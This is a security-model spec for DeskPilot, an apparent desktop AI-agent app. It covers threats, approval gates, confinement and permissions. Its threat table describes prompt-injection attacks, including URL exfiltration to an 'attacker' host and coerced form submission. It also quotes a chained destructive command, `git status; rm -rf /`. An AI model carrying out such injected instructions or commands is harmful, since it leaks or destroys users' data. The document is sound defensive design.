

# 050 — Security Model

DeskPilot hands a non-technical user an agent that can read and write files,
run commands, and browse the web with **their full privileges**. That power is
the point — and the risk. This spec defines how DeskPilot keeps it visible and
governable. It does **not** claim to sandbox the agent.

## Trust boundaries

- **SPA ↔ Host Server:** localhost only. The browser is trusted as the user's
  own; the Host Server validates all input at this boundary.
- **Host Server ↔ Engine:** in-process; the Host Server assembles parameters and
  enforces Permissions by passing `-Disable*` switches.
- **Engine ↔ OS:** the real risk surface — File/Terminal Tools act as the user.
- **Engine ↔ Copilot:** the Engine's existing TLS channel; out of DeskPilot's
  scope.

## Threats & mitigations

| # | Threat | Mitigation |
| --- | --- | --- |
| T1 | A prompt (or prompt-injected web content) makes the agent delete/overwrite files or run destructive commands. | Permissions are explicit category controls; File/Terminal are flagged as powerful in the UI; Workspace Folder scopes the default working directory; Activity shows intent and the final record. **Per-call approval gates every Terminal command the safe-list does not recognise**, before it runs (see below). File writes and MCP calls remain ungated - `specs/120` records the Engine contract that would close them. |
| T2 | The Host Server is reachable from the network. | Bind `127.0.0.1` only; refuse non-loopback binds unless an explicit `-Bind`+token opt-in is given; document loudly. |
| T3 | Another local process calls the API (CSRF/port-scan). | Require a per-launch **session token** (random, printed by the launcher and embedded in the served `index.html`) on every `/api/*` call; check `Origin`/`Host` headers; reject cross-origin. |
| T4 | The cached Copilot OAuth token is read by another user on a shared machine. | Inherited Engine behaviour (clear-text at the Engine's default token dot-file in the home directory, `~/.shellpilot-token`; historically `~/.copilot-demo-token`); DeskPilot documents it, derives the path from the Engine rather than hardcoding it, and recommends single-user machines; encrypted storage tracked upstream. |
| T5 | Prompt injection from fetched web pages or read files steers the agent. | Browsing/File are Permissions the user can turn off; Activity surfaces fetched URLs and read files; docs warn that agent output reflects untrusted content. |
| T5a | A prompt-injected **live page** steers the browser into carrying the Model's context out through a URL. | This is the browser feature's controlling threat, and it is not obvious: the browser holds no secrets (throwaway profile, no sign-ins, no local file access), but the **Model** holds the conversation, the Workspace Folder path and prior Turn content, and the Model chooses the next address. An injected page inducing `browser_page(open, "https://attacker/?ctx=<workspace path>")` exfiltrates through the address itself, with no file read and no command run. Broken by architecture, not by wording: scope is derived from hosts the **user** named in their own message plus the Project's list — **never** from the address the Model chose, which previously granted every Turn one free unapproved navigation to any host on the internet. Any top-level navigation outside scope, and any in-scope address whose query the Model composed rather than took from a link on the page just read, **stops before the request leaves** and raises an approval card showing the whole URL including the query string. Enforcement is in the Node supervisor's request interceptor, below the Model, which also sees redirect chains, nested frames and pop-ups that the pre-flight check cannot; both points compare on the punycode host form, because otherwise the card names a host Chromium never contacts. Page content can never widen scope; only the user can, per run from the card or durably from Settings. Off-origin script, WebSocket, XHR, fetch, beacon and all unapproved downloads are blocked outright; off-origin images, stylesheets and fonts are allowed because the page controls those and the page knows no secrets. `file:`, `data:`, `javascript:`, `blob:`, plain `http`, embedded credentials (including an empty `:@`), IP literals, single-label and `.local` hosts are refused outright and are never offered as an approvable card. |
| T5b | The browser reaches DeskPilot's own API, the local network, or a cloud metadata service. | Loopback, RFC1918, link-local and every other IP literal are classified `deny`, **before** the scope match, so a Project that added `127.0.0.1` to its domain list cannot re-open the path. Single-label hosts (`https://intranet/`) and `.local` names are refused for the same reason. A name is not a way around this: the **peer address** the connection actually landed on is checked after the navigation resolves, so a public name holding a private A record — and DNS rebinding, against which any pre-flight resolve is a TOCTOU — is refused too. This matters specifically because DeskPilot's own control surface is on loopback behind a session token that a same-machine browser navigation would carry. |
| T5c | A prompt-injected page talks the agent into **submitting, uploading, downloading or deleting** something. | Writing is a per-Project capability list (`fill`, `submit`, `upload`, `download`), absent by default, granted only from Settings. An ungranted action is refused **before any card is offered**, so an injected page cannot manufacture the moment in which a user grants it. A granted one is approved individually with no safe-list: the terminal has one because `git status` is genuinely routine, and there is no routine submission to somebody else's system. The card shows the affected values — every field name and value, the control's name, the resolved upload path — because "submit a form" is not a decision anyone can make, and the fingerprint covers **the values themselves**, so an approval for one set cannot be spent on another. A control press re-checks scope afterwards, because a form that posts to another site is a navigation wearing a button. |
| T5d | The agent is induced to type a password, one-time code or recovery code into a page. | Refused outright rather than masked, and refused in the supervisor against the **live input's own type and autocomplete**, because a field name is what an attacker controls. A `password` box, a field declared `current-password`/`new-password`/`one-time-code`/`cc-csc`, a hidden or invisible field, and anything matching a conservative credential-name pattern are all refused; the Tool description tells the model to hand sign-in back to the user. The name pattern is a second layer that can only ever add a refusal, so being wrong about it costs a filled field, not a leaked secret. |
| T5e | An upload sends a file the user did not intend, or a download lands where other Tools will treat it as the user's own work. | An upload path is resolved and confined to the selected Project folder by `Resolve-DpWorkspacePath` — the same lexical-plus-link-target test every workspace Tool uses — **before** the card is raised, so a card never names a file outside the Project. Page content never supplies a path. Files over 50 MB are refused. A download is saved into a quarantine folder under the data directory, never into the Project and never where the page asked; the page-supplied filename is reduced to a stripped leaf before it is joined to a path, and DeskPilot never opens or executes it. |
| T6 | Secrets in agent output or logs. | The Host Server does not persist prompts/answers to disk in v1; no server-side logging of Message bodies beyond memory; Usage logging excludes content. |
| T7 | A runaway tool loop or retry policy burns cost. | `MaxToolIterations` cap (Engine) exposed in Settings; response retries default to 2 and are bounded at 100, stop after any answer or Tool Activity, and state that failed attempts may consume Copilot credits; per-Turn Usage shown; Stop control. |
| T8 | The filesystem endpoints (folder picker + explorer) read or create arbitrary paths. | Loopback + session-token gated like all `/api/*`. They enumerate and create **directories only**, never file contents. `mkdir` accepts a single path segment (separators and `..` rejected). The explorer tree (`/api/fs/tree`) is confined to the selected Project's folder; a path escaping it is refused. |
| T8a | The image-preview endpoint serves user-controlled bytes back into the app's own origin, where the browser could execute them. | `/api/fs/image` is confined to the selected Project's folder exactly like `/api/fs/tree`, and it is the **file's own signature bytes**, never its extension, that decide the media type — so a renamed file cannot be served under a type the browser trusts. Only raster formats a browser draws are recognised (PNG, JPEG, GIF, WebP, BMP, ICO, AVIF); **SVG is deliberately excluded** because it is script-capable markup, and being text it is already readable through the text endpoints. Every response carries `X-Content-Type-Options: nosniff`, so the declared type is the only one in play, and a file over 16 MiB is refused rather than streamed. Because an `` cannot send the token header, the SPA passes the session token in the `t` query parameter — the same gate the served entry URL already uses, so the endpoint is no less authenticated than the rest of `/api/*`. |
| T9 | The Git endpoints run `git` on the host. | Confined to the selected Project's folder; `git` is invoked via a process call with an argument list (no shell, so no argument injection). `init` only runs `git init`; `checkout` only switches to a branch validated against the live local-branch list. A failing checkout (e.g. uncommitted changes) is surfaced as `409`, not forced. Branch names supplied for create, delete and cleanup pass `Test-DpGitBranchName` first — and again after a `<remote>/` prefix is stripped, because the strip produces a new token — so a name can never take the shape of an option; the remote delete also carries a `--` separator. `GIT_LITERAL_PATHSPECS=1` prevents a filename beginning with pathspec magic (`:/`, `:(glob)`) from changing a command's meaning. Paths supplied to the change/commit endpoints are confined to the Project folder the same way `Get-DpGitDiff` and `Invoke-DpGitRestore` confine theirs; a path outside is skipped, never acted on, and skipped paths are reported to the user. Git reports repository-relative paths, so `Get-DpGitChanges` rebases them onto the Project and drops anything outside it — a Project inside a larger repository never widens the boundary. Residual (inherited from the established pattern): the prefix comparison does not resolve reparse points, so a junction inside the Project resolves as inside it. |
| T9a | A Git call blocks the single-threaded Host Server (a credential prompt, a dead remote, a repository hook), freezing the whole UI. | `Invoke-DpGitCommand` redirects and immediately **closes stdin**, so git and anything it spawns (ssh, a credential helper, a hook) reads EOF instead of waiting on the launcher console, and sets `GIT_TERMINAL_PROMPT=0`, which refuses git's own blocking prompt while leaving GUI credential helpers working. **Every** call has a timeout — a default ceiling for local commands (which can still run hooks) and a longer one for networked calls (`fetch`, `push`, remote delete); on expiry the process tree is killed and the timeout is reported as an ordinary error. Both output streams are read asynchronously **and the read is bounded by the same deadline**, because `WaitForExit(int)` does not drain them and a grandchild holding the pipe open would otherwise block after the wait had already succeeded. The process handle is disposed. DeskPilot stores no Git credentials — only the ambient helper/SSH agent is used. |
| T9b | The generated **conflict prompt** widens the agent's scope, or is sent without the user noticing. | `GET /api/git/conflict/prompt` only *returns text*; DeskPilot never sends it. The Branch Wizard shows it in an editable box with Copy / Abort / Ask-DeskPilot-to-fix-it, so a Turn (and any File write) happens only on an explicit user action. The prompt itself instructs the agent not to run Git, stage, or commit, keeping the merge completion in DeskPilot's hands — but that wording is a guardrail, not a control. The real injection surface is the conflicted file **content** the agent then reads, which is the pre-existing T1/T5 posture (untrusted content reaching a Tool-enabled Turn), not something the Git Workbench introduces. Push, fetch and remote delete remain the only networked privileged actions, each behind its own user action. |
| T9c | An expensive Git read stalls the accept loop. | `Get-DpGitChanges` applies its 500-file cap **while building** the list rather than afterwards, and measures only the files it reports; `Measure-DpFileLine` reads at most 2 MiB per file. Untracked files are listed individually, which git's own ignore rules keep cheap. The SPA shares one in-flight request between the changes panel and the file tree and re-reads it at most every 20 s. |
| T9d | The pre-Turn **snapshot** mutates the user's repository, or its commit id becomes a way to read arbitrary history. | `New-DpChangeSnapshot` builds an ordinary commit object in a **throwaway index** (`GIT_INDEX_FILE` pointing at a temp file that is always deleted), so the user's index, working tree and branches are never touched; the result is parked under `refs/deskpilot/snapshots/<id>` only so garbage collection cannot reclaim it, and the ref is deleted once no pending entry references it. The id is stripped to `[0-9A-Za-z_-]` before it becomes a ref name. `GET /api/git/diff?base=` honours a commit **only when it is one of this Project's own snapshots**, so the query cannot name an arbitrary commit to read from. Undo uses `git restore --worktree`, which writes the working tree only — a staged change the user prepared themselves survives. Git's ignore rules apply to the snapshot, so a change to an ignored file is listed but reported as not undoable rather than silently "restored". |
| T9e | The **suggested Save message** feeds working-tree content into a Turn, so a crafted file could steer the Model. | `POST /api/git/commit/message` runs a **pure-reasoning** Turn with every Tool disabled (Browsing, File, Terminal, Ask-User, User Tools, Task List), so an injected instruction has nothing to act with — the blast radius is a misleading sentence. `New-DpCommitMessagePrompt` fences the file list and the diff and names them as *data, not instructions*, mirroring the Memory posture (T11). Both inputs are bounded (40 files, 8,000 diff characters) so a large or hostile change set cannot inflate the Turn. The answer is cleaned to one short line and **written into an editable box, never committed** — the user reads the words and clicks Save. It runs on an explicit click only, refuses while another Turn holds the Engine Runspace, and spends nothing on a clean tree. |
| T10 | The Customizations endpoints read or **write** files outside the customization folders. | Loopback + session-token gated like all `/api/*`. Every read, write, and create passes one gate (`Resolve-DpCustomizationPath`): the path must be a descendant of a **configured root** (case-insensitive prefix on a separator boundary, so `..` escapes and shared-prefix siblings are refused) **and** match the category's file pattern (`*.agent.md`, `SKILL.md`, `*.instructions.md`, `*.prompt.md`). A save targets an **existing** file only; a create validates the name as a single safe path segment and refuses an existing target; writes are atomic (temp + `Move-Item -Force`). Reads cap at 1 MiB and skip binary files. |
| T11 | Persistent **Memory** injected into the system prompt carries injected instructions or leaked secrets into future Turns (a conversation may include untrusted content the agent fetched or read). | Both stores are **bounded** (`Get-DpMemoryLimits`) and **fenced** in the system prompt as *reference-not-instructions* (`New-DpTurnParameter`), so a recalled fact is not treated as a fresh command. The autonomous learning prompt (`New-DpMemoryPrompt`) instructs the Model to write **declarative facts only** and to exclude secrets, credentials, and transient task state; learning is best-effort and never touches the visible transcript. Memory is **user-visible, editable, and clearable** in Settings, and autonomous learning is one toggle to disable. Residual risk (same posture as the manual Preferences block, which is also injected): the memory text is not deep-scanned for injection — a hardening pass (pattern + invisible-Unicode scan on write) is a documented future improvement. |
| T12 | The opt-in **CopilotAtelier setup** downloads and executes a remote script with the user's privileges. | The source is a **fixed first-party URL** (`raandree/CopilotAtelier`, the same owner as DeskPilot) fetched over HTTPS — never a user-supplied URL, so there is no request-forgery/injection surface. It is strictly **opt-in and consent-gated**: the SPA shows a dialog spelling out exactly what the script changes (the `~/.copilot` junctions, VS Code `settings.json`/`keybindings.json`, and the `COPILOT_ALLOW_ALL` user env var) before anything is downloaded or run, so it is never one click. The script then runs in a **visible console the user drives**, so its own safety prompts work and DeskPilot never answers them on the user's behalf; on non-Windows the script is not run (only the files are fetched). Loopback + session-token gated like all `/api/*`. |
| T13 | The **self-update** installs modules from the PowerShell Gallery with the user's privileges, reloads the Engine, and can relaunch the host. | The module names are **fixed and first-party** (`DeskPilot`, `ShellPilot`) — never user-supplied — so there is no injection/typosquat surface, and installs go to the **CurrentUser** scope (no elevation). It is strictly **consent-gated**: the background check only *reports* availability; nothing installs until the user clicks **Update now**, and nothing relaunches until the user clicks **Restart DeskPilot**. Previews are installed only when the user opted in (`updateIncludePrereleases`). The Engine reload re-imports ShellPilot in the Engine Runspace only (which runs no DeskPilot code; the token stays on disk); the DeskPilot host is never re-imported in-process (that would repoint route handlers to an uninitialised module scope), so it is applied by a clean relaunch. The relaunch spawns the **current** PowerShell executable running a fixed command (`Import-Module DeskPilot -Force; Start-DeskPilot`) — no user input in the command line. Both `install` and `restart` refuse mid-Turn (`409 busy`) and are loopback + session-token gated like all `/api/*`; `409 already_installing` guards concurrent installs. |
| T14 | A crafted Message request supplies an arbitrary local path as a native Vision image, bypassing File Permission. | `POST /api/uploads` records each successfully written file's normalized path and MIME type in a per-launch Attachment registry. `images` accepts only absolute, existing paths in that registry whose recorded type starts with `image/`; `Resolve-DpAttachmentPath` rejects unregistered, relative, missing, and non-image inputs before `Invoke-Shp -Image` receives them (`400 invalid_attachment`). Because eligibility is tied to the upload event rather than the currently selected Project, a legitimate pending Attachment survives a Project switch without widening access to other local files. The endpoint remains loopback, origin, and session-token gated. |
| T15 | Diagnostics or a support bundle leaks user content, credentials, paths, or unbounded process data. | Live and export records are constructed from field allow-lists; live state is never serialized. The Host Server log redacts known token/auth/credentialed-URL shapes at append time and is capped at 500 entries / 1 MiB. The self-check receives an allow-listed snapshot, runs off the accept loop, calls no Model/Engine/network endpoint, writes nothing, and time-bounds each probe. The support bundle contains only three generated text records, substitutes path purpose + leaf for every absolute path, caps input at 2 MiB and ZIP output at 3 MiB, chooses a new direct-child destination under the data directory, and refuses traversal, overwrite, reparse points, and concurrent creation. All routes retain loopback Host, same-origin, and session-token controls. |

## Turn transcript (`turnTranscript`, off by default)

A per-Turn ordered JSONL record of what happened, written once at the end of a
Turn into `<DataDir>/transcripts/`. It is a diagnostic that writes files, so it
is off unless asked for, and it is bounded on every axis that could turn it into
an uncontrolled second copy of the user's data:

- **Redaction is by construction, never by pattern.** A tool's arguments are
  never stored: the tool name selects one whitelisted field to summarise — the
  command for `run_command`, the path for a file tool, the URL for `fetch_url` —
  and a tool the map does not know contributes a length and nothing else. A
  blacklist would have to be right about every future tool.
- **Model prose is a length, not a copy.** `answer`, `narration` and `reasoning`
  records carry `bytes` only. A live smoke proved why: asked to write a file
  containing a secret, the model quoted that secret back in its own answer. All
  three are already persisted verbatim on the Message, so a bounded copy here
  would add no diagnostic value while being the one way arbitrary user data could
  reach the file. `error` keeps its summary, because a failed Turn has no Message
  to hold it.
- **No absolute paths and no prompt text.** The opening `meta` record states the
  prompt's *length*, whether a Project is selected, and the iteration source —
  never the prompt, never the Workspace Folder.
- **Retention is mandatory.** Every write prunes the folder to a size and an age
  bound, oldest first.
- **The read path is the existing one.** `GET /api/transcript` is an `/api/`
  route like any other, so it is loopback-bound and session-token gated; the file
  name is built from sanitised ids, so a crafted id cannot address a file
  elsewhere on disk.

## Diagnostics and support bundle

The Diagnostics surface is local evidence, not telemetry. Nothing is uploaded,
and no archive exists until the user presses **Create support bundle**.

**Redaction is structural first.** `New-DpDiagnosticSnapshot` and
`New-DpSupportBundleRecord` create fresh records with fixed fields. They do not
copy Settings or runtime objects and then search for bad keys. Consequently,
unknown future fields are excluded by default. The records include version
strings, state, bounded explanations/actions, counts, Permission/feature enabled
states, and MCP/Intercom configuration shape. They exclude:

- prompts, answers, reasoning, and Message history
- file contents, diffs, Attachments, and raw Tool arguments
- tokens, cookies, authorization headers, and credentialed URLs
- environment-variable values (MCP rows contribute only counts, never values)

**The Host Server log is transient.** It is a synchronized in-memory ring,
bounded at 500 entries and 1 MiB. A record has timestamp, severity, component,
event id, and a summary capped at 500 characters. The append boundary applies
the existing Intercom secret filter plus Host token, authorization-value,
credentialed-URL, secret-query, cookie, and common GitHub-token redaction. It is
cleared on request and restart and is not written to disk automatically.

**The self-check has no agent authority.** It runs from an allow-listed snapshot
in a background job. Its only active probes are local path existence and
`git --version`, each in a stoppable PowerShell instance with a 1.5-second
default deadline. It calls no Model, no Engine command, and no network endpoint,
so it cannot consume Copilot credits or start a Tool. A timeout, exception, or
missing observation is `degraded` or `unavailable`, never success.

**Archive creation is confined.** `New-DpSupportBundle` writes generated strings
directly to three ZIP entries (`summary.md`, `diagnostics.json`, and
`host-log.jsonl`) without a staging directory. The client cannot choose the
destination. It must be a new direct child of `<DataDir>/support-bundles`; the
data and output directories must not be reparse points. `FileMode.CreateNew`, a
random temporary name, and a no-overwrite final move close collision races. The
uncompressed input is capped at 2 MiB and the archive at 3 MiB. A transient
`Exporting` gate refuses a second request.

**Absolute-path exception.** The local, token-gated Diagnostics view retains two
absolute paths: the resolved DeskPilot data directory and Engine module path.
Both are explicit diagnostic requirements. The support bundle carries only
`{ purpose, leaf }` for them; the Project is represented by its display name and
folder leaf. The archive therefore remains shareable without disclosing the
user's directory layout.

## Optional Terminal isolation

The experimental [child storage components](../docs/child-agent-isolation.md)
do not change this ordinary Turn boundary. They provide a separate, no-host-mount
Tool filesystem with kernel byte/inode quotas, authenticated control records,
bounded proposals, and component lifecycle tests. Full child execution remains
refused because Engine request admission, credentialless Engine containment,
child approvals, and aggregate accounting are not integrated. Neither successful
storage tests nor an enabled setting establish a complete Agent boundary.

Terminal has an opt-in Docker Desktop/WSL2 boundary. Approval and isolation remain
independent: Isolated mode requires approval for non-routine commands and never
restores native execution when a Setting or dependency prevents the owned Tool.

Assume the Agent and Project content are hostile. Narrow mounts and no ambient
environment remove host credentials from command reach. Network-off breaks its
outbound leg; an explicit HTTPS allow-list narrows it through namespace-local
packet rules and a client-first TLS-inspecting proxy. Clearing proxy variables,
direct sockets, and Docker DNS do not bypass the packet rules. The proxy has no
Project mount and uses pinned public IPv4 destinations. Its private CA is
disposable, never added to host trust; origin certificates remain verified.

Other Tools are not isolated. Secrets in a selected Project can reach an approved
origin. This is not VM-grade protection from a compromised shared kernel.
Read-write mounts have no total disk quota; secret replacement is not general
DLP, and simultaneous outside file edits cannot be attributed reliably. These
limitations must remain visible rather than hidden by an Isolated label.

Stop cancels the controller before pipeline termination. Resource and cleanup
failures are visible. Explicit preparation records verified runtime provenance
and immutable image identity; Turns never acquire executables. See
[guarantees, limitations and recovery](../docs/isolated-terminal.md).

## Per-call approval (Terminal)

Category Permissions authorize a Tool for a whole Turn. Approval narrows that to
the individual action, and it does so by **owning the Tool** rather than by
asking the Engine to pause.

- **The built-in is removed, and its name is left alone.** `-DisableTerminal`
  drops `run_command` from the offered tool set, and the Engine refuses to
  dispatch a built-in this call did not offer — so a `run_command` the Model
  names from its own priors or from a replayed history fails closed rather than
  running beside the gate. DeskPilot's own Tool is called
  `run_terminal_command`, deliberately not `run_command`: the Engine matches
  built-in names before it consults registered Tools, so a same-named Tool would
  be advertised and then silently bypassed. The name is the boundary, and
  DeskPilot probes the Engine for the dispatch refusal before claiming it.
- **The gate precedes the effect.** The Tool blocks on the approval bridge
  before it calls the executor, so a pending question means nothing has run.
  Execution is then delegated to the Engine's own implementation: DeskPilot owns
  the decision, not process spawning, deadlines, output caps and tree kill.
- **You are asked only about what is not recognised.** A shipped safe-list of
  read-only commands runs without a prompt, so the gate spends the operator's
  attention where it buys something. It is an allow-list and therefore fails
  closed: an unrecognised command prompts, and a corrupt or missing list makes
  everything prompt. A deny-list was rejected - it would be wrong forever about
  everything it had not heard of, and evaded by `rm -r -f`, an alias or a
  wrapper.
- **A shell operator disqualifies a command outright.** `git status; rm -rf /`
  opens with an allow-listed prefix, so the operator check runs before any
  matching. `;`, `&`, `|`, `<`, `>`, a backtick, a newline, `$(`, `${` and
  `%VAR%` are each a way to smuggle a second command past a check aimed at the
  first. Prefix entries match on a token boundary, so `ls` cannot authorise
  `lsof`, and entries whose trailing argument changes their meaning are `exact`
  - `git branch` lists, `git branch -D main` destroys.
- **The safe-list widens only from Settings.** "Always allow this" beside a
  prompt is the button a tired operator presses, and this is a security
  boundary. Additions are validated on merge and are never offered by the card.
- **The summary is an allow-list.** Only the command, working directory and
  Project are carried. Tool arguments are exactly where a token or a file body
  would be, so a blacklist would have to be right about every future argument.
  The command is bounded and marked when truncated. The Model's own account of
  why it wants the command is **not** shown: the Model is the party being
  checked, and its reasons are attacker-reachable text.
- **An answer is bound to one action.** The fingerprint covers Tool, class,
  Conversation, Turn, command and working directory, so an answer cannot be
  replayed against a different command, a different chat or a later Turn. The
  first answer wins; a second is refused.
- **Turn-wide grants require explicit scope acceptance.** The operator amended
  the earlier once-only Terminal decision on 2026-09-07. A grant is limited to
  the same Tool/class, Conversation, Turn, Project, working directory, and frozen
  execution policy. Later command text may differ. This accepts broader command
  authority, not confinement; Local mode retains the user's privileges. Stop,
  completion/failure, a new Turn, or live Permission/Project/policy revocation
  clears the grant. No grant is persisted, inherited by children, or created
  from browser/MCP/File approvals or Intercom answers.
- **An unanswered request is denied, not held.** The Engine has one Runspace,
  so a parked approval blocks every queued run. It expires after
  `approvalTimeoutMinutes` (default 15) and the bridge is released.
- **Either surface may answer, on separate switches.** The window and the
  Intercom private chat both receive the request. A group chat may answer only
  when `intercom.groupApproval` is on - a third switch, defaulted off, gated by
  its own re-confirmation, because letting a group instruct DeskPilot and
  letting a group authorise a command it was warned about are different amounts
  of trust.
- **Denial is recoverable.** The Model is told the user declined and is given
  their optional note, so a refusal steers rather than dead-ends.
- **The log is not the control.** Every decision reaches the Activity trail and
  the diagnostics log, without the command text. That is an audit trail, not a
  gate: an unattended run still executes safe-list commands with nobody
  watching, and logging that does not make it safer. It is an accepted risk,
  bounded by what the safe-list is allowed to contain.
- **Not yet covered.** MCP calls and the Engine's built-in file writes still run
  ungated - the Engine dispatches those itself. `specs/120` records the contract
  that would close them.

## Scheduled work

A schedule runs while nobody is watching, so its authority is deliberately not
the same as an interactive Turn's.

- **Permissions are read live and can only be narrowed.** `Get-DpScopedSettings`
  ANDs a scoped Permission with the live one; there is no code path by which a
  stored schedule grants a Permission the window does not currently have.
- **The default `safe` mode drops Terminal.** Per-call approval does not exist
  yet (spec 120 records the Engine contract it needs), so there is nobody to
  approve a command an unattended Agent proposes. `live` mode keeps the current
  Permissions and is confirmed in a dialog that states exactly that.
- **The stored prompt and everything the run reads are untrusted at execution.**
  A schedule carries a prompt the user wrote; the Project content it then reads
  is data, not instructions, exactly as for an interactive Turn.
- **A run is claimed before it starts.** The claim is persisted, so a restart
  reports an interrupted run once instead of repeating work that may already
  have written files.
- **No inbound surface is added.** Schedules are local wall-clock arithmetic on
  the existing accept loop: no webhook, no listener, no external event source,
  and nothing runs while DeskPilot is closed.
- **A dependency is revalidated, never substituted.** A Project that has been
  unregistered or a Model the account lost fails the run visibly rather than
  quietly running the same prompt somewhere else.

### File triggers

A timed schedule fires at a moment the operator chose. A file trigger fires at a
moment chosen by whatever wrote the file — a sync client, a colleague's share, a
download — so it is deliberately given less latitude:

- **Locked to the `safe` permission mode.** Terminal authority is unavailable to
  a trigger until per-call approval exists (`specs/120`). The UI removes the
  control and the API refuses the value; neither alone would be sufficient.
- **The event is a path, never content.** The stored prompt is independent of the
  file, and the Turn is told to treat the file's contents as data rather than
  instructions. Nothing from the file reaches a command, a URL, or a Tool
  argument.
- **Confinement is checked twice, at different times.** The `watchGlob` is
  refused at save time if it is rooted or contains `..`; the scan then prunes
  reparse points instead of following them, so a junction planted inside the
  Project cannot walk the watcher out of it.
- **A partial write is not input.** A file must hold the same size and
  last-write time across two observations at least `stabilitySeconds` apart
  before it counts as complete.
- **Bounded.** File size, files scanned per tick, queue depth and retained run
  history are all capped; a file over the size bound is refused and reported
  rather than truncated. A file already acted on does not fire again until its
  content changes, and a deleted file is forgotten so the state cannot grow.

## Permissions model

Five Tool categories map 1:1 to Engine switches. A Permission **off** passes the
matching `-Disable*` switch, so the Engine never even offers the Tool to the
model:

| Permission | Engine switch when off | Risk note shown in UI |
| --- | --- | --- |
| Browsing | `-DisableBrowsing` | "Can read web pages you don't control." |
| File | `-DisableFileAccess` | "Can read and **write** files as you." |
| Terminal | `-DisableTerminal` | "Can **run commands** as you." |
| Ask-User | `-DisableUserPrompts` | "Can pause to ask you a question." |
| User Tools | `-DisableUserTools` | "Can call tools you've registered." |
| Browser | *(none — a User Tool)* | "Opens a throwaway browser and follows links. Asks before leaving the site." |

Defaults (v1): Browsing **on**, File **on**, Terminal **off**, Ask-User **on**,
User Tools **on**, Browser **off**. Terminal defaults off because it is the
highest-blast-radius Tool for a non-technical user; turning it on is a
deliberate act.

**Browser is a separate Permission and Browsing does not imply it.** Retrieving
one address and driving a live page are different amounts of authority. It has
no Engine switch because the Engine has no interactive browser: it gates
DeskPilot's own `browser_page` User Tool, and is therefore honoured by not
registering that Tool for the Turn. Switching it on does not make a browser
appear — without Node, the pinned Playwright and its browser build, the Tool is
reported unavailable in Diagnostics rather than advertised to the Model and then
failing on every call. The runtime is downloaded only from an explicit
Diagnostics action; nothing on a Turn's path can acquire an executable.

**DeskPilot's own User Tools are not covered by that 1:1 mapping.** A Tool
registered with `Register-ShpTool` belongs to the User Tools category, so
`-DisableFileAccess` does not reach it. DeskPilot therefore registers and
unregisters its file-reading and file-writing Tools by hand as the matching
Permission changes: `Set-DpWorkspaceTool` removes `search_files`, `search_text`
and `replace_in_file` when File is off and re-registers them when it is on,
exactly as `Set-DpQuestionnaireTool` does for `ask_questions` and Ask-User.

`Set-DpTerminalTool` is the same pattern with the mapping inverted: when
per-call approval is active it registers DeskPilot's gated `run_terminal_command` **and**
`-DisableTerminal` is passed, so the Permission that is on is served by an owned
Tool rather than the built-in. Approval is active only when `perCallApproval`,
Terminal and User Tools are all on. Terminal off keeps the Tool unavailable
outright; User Tools off stands approval down instead of removing the terminal,
because a withdrawn Permission must never be the thing that widens access.
Without that, a Permission the UI reports as off would still be in force.

### Per-call approval blocker

DeskPilot does not claim per-call approval for Engine-owned outside-Project
writes or mutating MCP calls. Terminal approval uses the owned Tool described
above. `ShpProgress` and `tool.call` are observation
channels: neither accepts a decision. Stop cancels the whole Turn and can race
dispatch, so it is not an approval mechanism.

ShellPilot 0.4.0 places `ShouldProcess` before mutating built-in, MCP, and User
Tool dispatch. That boundary is not sufficient for DeskPilot because it exposes
an interactive PowerShell host prompt rather than a correlated callback, gives
the host raw MCP argument JSON, and does not provide trustworthy MCP annotation
provenance. DeskPilot must not imitate approval after execution or treat every
MCP call as safe.

The smallest acceptable upstream change is the fail-closed, cancellable
pre-dispatch callback in
[120-per-call-approval-engine-contract.md](120-per-call-approval-engine-contract.md).
Until its integration gate passes, category Permissions and explicit user
actions are the available controls; Activity is visibility, not authorization.

## Workspace Tools (`search_files`, `search_text`, `replace_in_file`)

Unlike the Engine's File Tools, DeskPilot's own Tools **are** confined to the
Workspace Folder, and deliberately so: a search Tool the model can aim at
`C:\Users` is a data-exfiltration path wearing a search Tool's name, and an edit
Tool it can aim there is worse.

- **The root is never a Tool parameter.** `New-ShpToolSchema` turns every
  parameter into a JSON-schema property the model may fill in, so the Workspace
  Folder is passed out of band as a Runspace global that only DeskPilot writes.
  The result cap, the per-match text bound and the wall-clock budget are literals
  for the same reason.
- **Two confinement guards.** A path or pattern that is absolute,
  drive-qualified, UNC, `~`-relative or carries a `..` segment is refused by
  shape before the file system sees it; and every resolved candidate is checked
  against the root prefix and again through its final link target, so a symlink
  or junction pointing outside the Workspace Folder is dropped and the directory
  walk will not pass through one. Both checks live in one place
  (`Get-DpSearchPatternError`, `Resolve-DpWorkspaceRoot`,
  `Resolve-DpWorkspacePath`), so search and edit cannot drift apart.
- **No Project means no Tool.** Each returns a structured error asking the user
  to select a Project. They never fall back to the process working directory.
- **Ignored and excluded content is never returned.** Inside a repository the
  candidate list comes from `git ls-files --cached --others --exclude-standard`,
  so `.gitignore` is honoured and an ignored secret is not offered to the model;
  `.git`, `node_modules`, `output`, `bin` and `obj` are dropped whether tracked
  or not; binary files are skipped and cannot be edited.
- **Bounded, and honest about it.** Results are capped, matched text is trimmed,
  execution is time-boxed, and `truncated` is always reported — a silently short
  result set teaches the model a false negative it cannot detect.
- **An edit is all-or-nothing.** `replace_in_file` requires exactly one
  occurrence; zero and several are both refused with distinct messages and the
  file is left byte-identical. Encoding, BOM and dominant line ending are
  preserved, and a file that cannot be decoded losslessly is refused rather than
  rewritten — a Tool that silently normalises a file destroys the reviewability
  the Changes card exists to provide.
- **Every edit is accounted for.** ShellPilot records only its own `write_file`
  in `result.FilesWritten`, so `replace_in_file` appends to a Runspace ledger
  that `Invoke-DpTurn` drains into the Turn's Activity. Without it an edit would
  be invisible to the Changes card and therefore un-undoable.

## Workspace Folder

- Sets the Engine Runspace working directory so relative File/Terminal
  operations land in a chosen folder.
- With no Project selected the working directory is a neutral scratch folder in
  the per-user data directory (not the folder DeskPilot was launched from and
  not a previously selected Project), so a no-Project Turn cannot silently read
  files — for example a `.memory-bank` — that belong to an unrelated context.
- It is a **default and a convenience, not a jail**: the agent can still use
  absolute paths. The UI states this plainly.
